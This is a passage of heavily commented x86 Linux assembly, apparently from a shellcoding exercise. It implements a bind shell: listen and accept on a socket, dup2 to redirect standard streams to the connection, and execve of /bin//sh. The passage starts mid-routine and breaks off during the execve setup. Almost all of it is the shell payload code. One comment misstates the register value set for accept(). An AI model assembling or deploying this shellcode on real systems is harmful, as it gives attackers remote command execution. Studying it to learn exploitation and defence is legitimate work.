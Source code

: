```
	; int socketcall(int call, unsigned long *args)
	; int listen(int sockfd, int backlog)
	; EAX = socketcall
	; EBX = SYS_LISTEN[4]
	; ECX = ADDRESS-SYS_BIND-SOCKFD
	mov    al,0x66  ; setting EAX to socketcall() syscall
	mov    bl,0x4	; setting EBX to 0x4 (socketcall: SYS_LISTEN[4])			:	[socketcall --> REF1]
	push   esi	; pushing socket fd onto stack for ECX (SYS_SOCKET-sockfd)		:	[listen --> REF6]
	xor    ecx,ecx	;
	mov    ecx,esp	; setting ECX to pointer of SYS_SOCKET procedure - (*SYS_SOCKET-SOCKFD)	:	[listen --> REF6]
	int    0x80	; [*] Calling: socketcall(SYS_LISTEN, (*SYS_SOCKET-sockfd)


sys_accept:
	; [+] socketcall() to SYS_ACCEPT
	; int socketcall(int call, unsigned long *args)
	; int accept(int sockfd, struct sockaddr *restrict addr, socklen_t *restrict addrlen)
	; EAX = socketcall
	; EBX = SYS_ACCEPT[5]
	; ECX = ADDRESS-SYS_BIND-SOCKFD
	mov    al,0x66	; setting EAX to socketcall() syscall
	mov bl,0x5	; setting EBX to 0x2 (socketcall: SYS_ACCEPT[5])			:	[socketcall --> REF1]
	push esi	; pushing socket fd onto stack for ECX (SYS_SOCKET-sockfd)
	mov ecx,esp	; setting ECX to pointer of SYS_SOCKET procedure - (*SYS_SOCKET-SOCKFD)	:	[accept --> REF7]
	int 0x80	; [*] Calling: socketcall(SYS_ACCEPT, (*SYS_SOCKET-sockfd)


dup2_setup:
	; [+] dup2(): replacing accept fd with stdin, stdout, stderr fd's: (0x2,0x1,0x0)
	; int dup2(int oldfd, int newfd);
	; EAX = dup2
	; EBX = acceptfd
	; ECX = (0x2,0x1,0x0)-1) decrementing loop
	xor ebx,ebx	;
	mov ebx,eax	; After accept connection, save acceptfd to EBX (SYS_ACCEPT-ACCEPTFD)	
	xor ecx,ecx	; 
	mov cl,0x2	; loop counter for dup2. decrementing loop will look like: (0x2,0x1,0x00)
dup2_loop:
	push   0x3f	; using push/pop this time for fun. same as using mov eax,0x3f
	pop    eax	; setting EAX to dup2() syscall						:	[dup2 --> REF8]
	int    0x80	; [*] Calling: dup2(acceptFD, (0x2,0x1,0x0))
	dec    ecx	; decrementing loop counter for each iteration
	jns    dup2_loop;  loop up to dup2_loop if not sign (If ECX is positive (0,1,2) then loop, else if negative (0,-1 etc) then continue down)


ExecveShell:
	; [+] execve(): executing /bin//sh	
	; int execve(const char *pathname, char *const argv[], char *const envp[])
	; EAX = execve
	; EBX = /bin//sh
	; ECX = args followed by 0x00
	xor    eax,eax	;
	mov    al,11	; setting EAX to execve syscall
	xor    ebx,ebx	;
	push   ebx	; execve requires NULLBYTE after arguments (0x00)			:	[execve --> REF9]
	push   0x68732f2f ; sh//
```